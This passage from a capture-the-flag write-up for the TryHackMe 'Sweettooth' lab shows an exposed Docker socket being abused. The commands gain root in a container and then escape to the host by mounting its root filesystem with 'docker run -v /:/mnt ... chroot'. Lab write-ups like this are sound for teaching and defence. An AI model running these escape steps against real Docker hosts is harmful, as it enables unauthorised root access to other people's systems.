 Let's tell my local docker binary to point to this forwarded socket:

```
kali@kali:~$ export DOCKER_HOST="localhost:2377"
```

Now let's check which containers are running:

```
kali@kali:~$ docker ps
CONTAINER ID   IMAGE                  COMMAND                  CREATED          STATUS          PORTS                                          NAMES
575d68b41bfa   sweettoothinc:latest   "/bin/bash -c 'chmod…"   42 minutes ago   Up 42 minutes   0.0.0.0:8086->8086/tcp, 0.0.0.0:2222->22/tcp   sweettoothinc
```

Let's get a shell on this:

```
kali@kali:~$ docker exec -it 575d68b41bfa /bin/bash
root@575d68b41bfa:/# 
```

Aaand we have root on the container! Let's grab the root flag:

```
root@575d68b41bfa:/# cat /root/root.txt
THM{REDACTED}
root@575d68b41bfa:/# 
```

## Escape/Root on Host

Now let's try to escape.

Looking at the HackTricks page for docker escapes, if we have the docker binary we can mount the root filesystem using the following command:

```
#Run the image mounting the host disk and chroot on it
docker run -it -v /:/host/ ubuntu:18.04 chroot /host/ bash
```

The problem with this is that we cannot connect to the internet to download what is needed to spin up an ubuntu container. Because of this, we have to change it to an image we have locally.

Let's see what we can work with:

```
kali@kali:~$ docker images
REPOSITORY      TAG       IMAGE ID       CREATED        SIZE
sweettoothinc   latest    26a697c0d00f   2 months ago   359MB
influxdb        1.3.0     e1b5eda429c3   4 years ago    227MB
```

We can spin up another ``sweettoothinc`` image!

Let's do this:

```
docker run -v /:/mnt --rm -it sweettoothinc chroot /mnt sh
```
